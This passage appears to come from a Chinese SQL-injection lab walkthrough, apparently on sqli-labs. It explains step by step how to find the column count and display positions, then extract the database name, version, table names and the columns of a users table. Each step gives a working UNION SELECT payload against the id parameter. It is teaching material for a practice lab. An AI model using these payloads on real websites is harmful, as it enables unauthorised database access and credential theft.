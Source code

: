 可以观察到查询是否有4列时报错了，超出了范围，说明只有三列。



**第二步：**

爆出显示位，就是查询表格里面有哪一列是在页面显示的。可以看到是第二列和第三列里面的数据是在页面显示的，而第一列没有在页面显示。

```mysql
?id=-1' union select 1,2,3 --+
```

>这里的select 1,2,3 其实是占位符，因为由前面我们知道这个表一共有三列，所以当我们使用union select来进行联合查询时，必须也要保证返回的列数和之前一样，否则就会报错。如下：
>
>![image-20250826171328711](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250826171328711.png)

![image-20250826170611354](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250826170611354.png)



**第三步：**

获取当前数据名和版本号，这个涉及MySQL数据库的一些函数，通过结果知道当前数据库是security，版本号是5.7.26。

```mysql
?id=-1' union select 1,database(),version()--+
```

![image-20250826191506166](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250826191506166.png)



**第四步：**

爆破表，`information_schema.tables`表示该数据库下的`tables`表。`where`后面是条件，`group_concat()`是将查询到结果连接起来。如果不用`group_concat()`查询到的只有user。该语句的意思是查询information_schema数据库下的tables表里面且table_schema字段内容是security的所有table_name的内容。

```mysql
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```

>1,2表示占位符，`group_concat` 用于将多个行合并成一个单一的字符串，在这个查询中，它会将数据库中所有表格的名称连接成一个字符串，表名之间由逗号隔开。`information_schema.tables` 是一个系统视图，包含了当前数据库中所有表格的信息。攻击者利用它来查找所有表格的名称。`table_schema='security'` 是条件，限定查询返回的表格仅来自名为 `security` 的数据库。攻击者可以通过修改这个条件来查询不同的数据库中的表格。

![image-20250826193423991](https://cdn.jsdelivr.net/gh/hxd77/BlogImage/Blog/image-20250826193423991.png)



**第五步：**

爆字段名，我们通过sql语句查询知道当前数据库有四个表，根据表名知道可能用户的账户和密码是在`user`表中。接下来我们就是得到该表下的字段名以及内容。

```mysql
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

>1,2表示占位符，`group_concat(column_name)`：这是一个 SQL 聚合函数，它将所有的列名（`column_name`）合并成一个单一的字符串。这个函数会将 `users` 表中的所有列名称连接起来，列名之间用逗号分隔。`information_schema.columns` 是一个系统视图，包含了数据库中所有表的列信息。它提供了每个表的列名称、数据类型、长度等信息。攻击者通过它来查询表的列名。`where table_name='users'` 是条件，限制查询仅返回 `users` 表的列信息。
